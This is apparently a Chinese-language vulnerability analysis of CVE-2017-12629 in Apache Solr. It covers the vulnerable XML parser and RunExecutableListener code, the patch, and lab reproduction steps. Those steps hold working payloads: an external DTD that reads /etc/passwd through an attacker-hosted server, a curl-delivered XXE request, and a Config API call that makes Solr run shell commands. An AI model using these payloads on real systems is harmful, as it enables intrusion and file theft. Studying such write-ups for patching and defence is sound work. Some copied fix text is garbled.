








# CVE-2017-12629 CWE-611 Solr XXE&RCE

## 漏洞背景

- **Solr ：**一个高性能、可扩展的开源企业级搜索引擎平台，基于 Apache Lucene 构建。它采用倒排索引技术，能够快速高效地对海量数据进行全文检索，支持多种数据格式（如 JSON、XML 等）的导入和索引。Solr 提供强大的查询功能，包括全文检索、过滤查询、排序、分组等，可灵活满足不同的检索需求。还具备分布式搜索和索引复制功能，可实现高可用性和负载均衡，广泛应用于电商搜索、内容管理、数据分析等众多领域，助力企业提升搜索体验和数据处理能力。
- **RunExecutableListener 组件：** Apache Solr 提供的一个组件，允许用户在特定事件（如提交操作后或创建新搜索器时）执行自定义的外部命令。其功能是通过在 Solr 配置中定义监听器来实现的，用户可以指定要执行的命令及其参数，从而在事件发生时触发相应的操作。
- **CWE-611：**“Improper Restriction of XML External Entity Reference”，是指应用程序在处理XML输入时，未能正确限制外部实体引用，导致可能被攻击者利用来访问敏感信息或执行其他恶意操作。这个漏洞允许攻击者通过构造恶意的XML数据，引用外部实体，从而可能读取服务器上的敏感文件、执行远程代码或发起拒绝服务攻击。

## 漏洞原理

**XXE：**Solr 的 XML 查询解析器没有显式禁止 DOCTYPE 声明和外部实体的扩展。攻击者可以利用这一点，通过在XML文档中包含特殊实体（如指向外部文件或URL的实体），使 Solr 服务器解析这些实体并执行外部请求。

**RCE：**Solr的 "RunExecutableListener" 类允许在特定事件（如更新查询后）执行任意命令。通过利用 XXE 并使用 Config API add-listener 命令来访问 RunExecutableListener 类，从而远程执行代码。

## 漏洞定位

### XXE

在 lucene\queryparser\src\java\org\apache\lucene\queryparser\xml\CoreParser.java 文件用于解析 XML 格式的查询请求，并将其转换为 Lucene 的查询对象，第 **136** 行 parseXML 方法用于解析 XML 输入流，生成 DOM 文档，创建了 XML 解析器，但没有进行任何安全配置。其中第 **140** 行，调用的 DocumentBuilderFactory.newInstance() 创建的实例默认支持外部实体解析，这是**漏洞点**所在，之后在第 **147** 行直接调用 parse 方法解析 XML 流。

```java
static Document parseXML(InputStream pXmlFile) throws ParserException {
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance(); //  创建一个默认的 DocumentBuilderFactory 工厂
    DocumentBuilder db = null;
    try {
// *** 140 行 ***** 直接使用默认工厂创建 DocumentBuilder，未禁用任何危险特性 *******************
        db = dbf.newDocumentBuilder(); 
    }
    catch (Exception se) {
        throw new ParserException("XML Parser configuration error", se);
    }
    
    Document doc = null;
    try {
//*** 147 行 ***** 解析XML流，此时会读取并执行在XML中定义的外部实体（如读取文件）*****************
        doc = db.parse(pXmlFile); 
    }
    catch (Exception se) {
        throw new ParserException("Error parsing XML stream:" + se, se);
    }
    return doc;
}
```

### RCE

在 solr\core\src\java\org\apache\solr\core\RunExecutableListener.java 文件用于在 Solr 的某些事件发生时（例如提交或创建新搜索器时），运行一个外部可执行程序。第 **47** 行 init 方法用于初始化监听器的，接收配置参数并设置好命令、工作目录、环境变量等信息，其中第 **54** 行，用于将命令及其参数初始化到 cmd 字符串数组中。

```java
@Override
  public void init(NamedList args) {
    super.init(args);

    List cmdlist = new ArrayList();
    cmdlist.add(args.get("exe"));
    List lst = (List)args.get("args");
    if (lst != null) cmdlist.addAll(lst);
// ***** 54 行 ********** 将命令及其参数初始化到 cmd 字符串数组中 **************************
    cmd = (String[])cmdlist.toArray(new String[cmdlist.size()]);

    lst = (List)args.get("env");
    if (lst != null) {
      envp = (String[])lst.toArray(new String[lst.size()]);
    }

    String str = (String)args.get("dir");
    if (str==null || str.equals("") || str.equals(".") || str.equals("./")) {
      dir = null;
    } else {
      dir = new File(str);
    }

    if ("false".equals(args.get("wait")) || Boolean.FALSE.equals(args.get("wait"))) wait=false;
  }
```

当 Solr 发生提交事件（postCommit）时，第 133 行的 postCommit 方法被调用，该方法调用了 exec 方法。

```java
 @Override
  public void postCommit() {
    // anything generic need to be passed to the external program?
    // the directory of the index?  the command that caused it to be
    // invoked?  the version of the index?
    exec("postCommit");
  }
```

第 88 行，exec 方法使用 init 方法初始化的配置来执行外部可执行程序，其中第 98 行使用 Runtime.getRuntime().exec() 方法执行存储在 cmd 成员变量中的命令。

```java
protected int exec(String callback) {
    int ret = 0;

    try {
      boolean doLog = log.isDebugEnabled();
      if (doLog) {
        log.debug("About to exec " + cmd[0]);
      }
      final Process proc;
      try {
// ***** 98 行 ********** 执行 cmd 中的命令 ********************************************
        proc = Runtime.getRuntime().exec(cmd, envp ,dir);
      } catch (Error err) {
        // Create better error message
        if (err.getMessage() != null && (err.getMessage().contains("posix_spawn") || err.getMessage().contains("UNIXProcess"))) {
          Error newErr = new Error("Error forking command due to JVM locale bug (see https://issues.apache.org/jira/browse/SOLR-6387): " + err.getMessage());
          newErr.setStackTrace(err.getStackTrace());
          err = newErr;
        }
        throw err;
      }

// ......
    return ret;
  }
```

## 漏洞修复


升级到 Solr  5.5.5， 6.6.2， 7.1.0,或后来。 对于不能立即升级的设施,请开始 Solr 与 `-Ddisable.configEdit=true` 重新绘制 `xmlparser` 查询解析器到非 XML 解析器， 如 `edismax`。这些缓解措施将处理用于 RCE 和 XXE 解析器曝光,但倾向于升级。

**XX:**

1。 修改CoreParser.java文件中的parseXML方法,以启用JAXP的"安全处理"模式。 根据官方Java文档,这种模式限制了外部资源的获取,如外部DTD和外部实体引用。

2。 添加一个拒绝所有外部实体的解析器,并在调用 db.parse(pXmlFile)之前将其设置为文档构建器 。

```java
// 2. Add a parser that rejects all external entities
protected EntityResolver getEntityResolver() {
	return DISALLOW_EXTERNAL_ENTITY_RESOLVER;
}

private Document parseXML(InputStream pXmlFile) throws ParserException {Add commentMore actions
    final DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    dbf.setValidating(false);
    try {
        // 1. Enable JAXP's "Secure Handling" mode
      dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
    } catch (ParserConfigurationException e) {
      // ignore since all implementations are required to support the
      // {@link javax.xml.XMLConstants#FEATURE_SECURE_PROCESSING} feature
    }Add commentMore actions
    final DocumentBuilder db;
    try {
      db = dbf.newDocumentBuilder();
    } catch (Exception se) {
      throw new ParserException("XML Parser configuration error.", se);
    }
    try {
      db.setEntityResolver(getEntityResolver());
      db.setErrorHandler(getErrorHandler());
      return db.parse(pXmlFile);
    } catch (Exception se) {
      throw new ParserException("Error parsing XML stream: " + se, se);
    }
  }
```

**RCE 修复：**

RunExecutiveListener 类被直接删除

## 影响范围


**受影响版本：**

Apache Solr

- 5.5.0 至 5.5.4（含）
- 6.0.0 至 6.6.1（含）
- 7.0.0 至 7.0.1（含）

**影响组件：**

RCE 漏洞影响 RunExecutable Listener 组件。

## 环境搭建

1. 启动 Docker 环境，Solr 版本为 7.0.1，监听端口为 8983

   

2. 容器中存在一个名为 demo 的 core，并将 XML、JSON、CSV 文件导入了该 Solr core 中，使用以下命令查看所有的核心：

   ```bash
   curl http://127.0.0.1:8983/solr/admin/cores?indexInfo=false&wt=json
   ```

   

## 漏洞复现

### XXE

1. 创建 do.dtd 文件，尝试读取 /etc/passwd 文件

   ```dtd
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
   ```

2. 在 do.dtd 文件所在文件夹打开命令行，并启动 http 服务，运行第 4 步后会看到有请求。

   ```bash
   python -m http.server 80
   ```

   

3. 构造 XXE Payload，这里 IP 为本机的 192.168.233.153，并进行 url 编码。

   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE x[
   <!ENTITY % xxe SYSTEM "http://192.168.233.133:80/do.dtd">
   %xxe;
   %ent;
   ]>
   <x>&data;</x>
   ```

   ```url
   %3C%21DOCTYPE%20x%5B%0A%3C%21ENTITY%20%25%20xxe%20SYSTEM%20%22http://192.168.233.153:80/do.dtd%22%3E%0A%25xxe%3B%0A%25ent%3B%0A%5D%3E%0A%3Cx%3E%26data%3B%3C/x%3E
   ```

4. 执行 curl 命令，发送提供的 XML 内容，可以看到返回了 /etc/passwd 的内容

   ```bash
   curl "http://192.168.233.153:8983/solr/demo/select?wt=xml&defType=xmlparser&q=%3C%21DOCTYPE%20x%5B%0A%3C%21ENTITY%20%25%20xxe%20SYSTEM%20%22http://192.168.233.153:80/do.dtd%22%3E%0A%25xxe%3B%0A%25ent%3B%0A%5D%3E%0A%3Cx%3E%26data%3B%3C/x%3E&defType=xmlparser"
   ```

   

### RCE

1. 使用 POST 方法，将请求发往 Solr Core 名为 demo 的 config API。在 postCommit 事件之后，使用名称 newlistener 注册一个监听器，并使用 solr.RunExecutableListener 类。设置 exe 的值为想要执行的命令，dir 为目录，即在 /bin/ 目录下运行 sh。args的值是命令参数，这里传递两个参数：-c 和 touch /tmp/success。意味着每当该 core 执行 commit（包括自动 commit 或手动 commit）后，Solr 会调用系统命令：/bin/sh -c "touch /tmp/success"，在 /tmp/ 下创建或更新 success 文件。

   ```bash
   curl -X POST http://127.0.0.1:8983/solr/demo/config \
     -H 'Content-Type: application/json' \
     -d '{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","touch /tmp/success"]}}'
   ```

2. 向 Solr 名为 demo 的 Core 发起的数据更新（update）操作，触发刚才添加的 listener。这里发送一个 JSON 数组，包含单个文档 { "id":"test" }。这会创建或覆盖一个 id 为 "test" 的文档，其他字段会被默认为空。

   ```bash
   curl -X POST http://127.0.0.1:8983/solr/demo/update \
     -H 'Content-Type: application/json' \
     -d '[{"id":"test"}]'
   ```

   

3. 之进入容器命令行，查看 tmp 目录下的文件，可以看到成功创建了 success 文件。

   ```bash
   docker exec -it solr-7.0.1 bash
   ```

   

## PoC分析

### XXE

运行 PoC 代码，输入 Solr 运行的 IP和端口、本机的 IP 和监听端口、想要访问的文件路径，这里尝试访问 /etc/passwd 文件，执行后可以看到成功返回了文件内容。

```bash
python CVE-2017-12629-XXE-PoC.py
```



### RCE

由于利用该漏洞进行命令执行时没有执行结果回显，在进行验证时采用执行的命令为请求本机的 PoC 代码文件。

1. 先在 PoC 文件所在的文件夹中打开终端，并执行下列命令监听 4444 端口。

   ```bash
   python3 -m http.server 4444
   ```

2. 重新在 PoC 文件所在的文件夹中打开一个终端。执行 PoC 文件，输入 Solr 运行的 IP 和端口，再输入核心名、监听器名和要执行的命令为请求第一步监听端口下的 PoC 文件，<your-ip> 为本机的 IP，不是 127.0.0.1，在进行测试时运行 Solr 的 IP 为 192.168.233.153。

   运行后需等待一段时间，可在监听界面看到有请求。

   ```bash
   CVE-2017-12629-RCE-PoC.py
   
   curl http://<your-ip>:4444/CVE-2017-12629-RCE-PoC.py
   ```

   

## 参考链接


[NVD - CVE-2017-12629](https://nvd.nist.gov/vuln/detail/CVE-2017-12629)

https://github.com/advisories/GHSA-mh7g-99w9-xpjm

[Apache Solr Remote Code Execution Vulnerability (CVE-2017-12629): From Exploit to Intrusion Detection - FreeBuf Cybersecurity Industry Portal](https://www.freebuf.com/sectool/159970.html)

XXE：

[CVE-2017-12629-XXE Source Code Analysis and Vulnerability Reproduction - CSDN Blog](https://blog.csdn.net/2303_80022567/article/details/148289700)

[SOLR-11477: Disallow resolving of external entities in Lucene querypa… · apache/lucene-solr@3bba911](https://github.com/apache/lucene-solr/commit/3bba91131b5257e64b9d0a2193e1e32a145b2a2#diff-4951083ed32083be4a44db8f1a48ee3ce699910d8333a90e1e8f394a57eb17a4)

RCE：

[CVE-2017-12629-RCE Source Code Analysis and Vulnerability Reproduction _cve-2017-12629 Vulnerability Reproduction Process - CSDN Blog](https://blog.csdn.net/2303_80022567/article/details/148261240)

https://github.com/apache/lucene-solr/commit/1979b7efec523fd2b9fbabcdf004c22435c2c40e
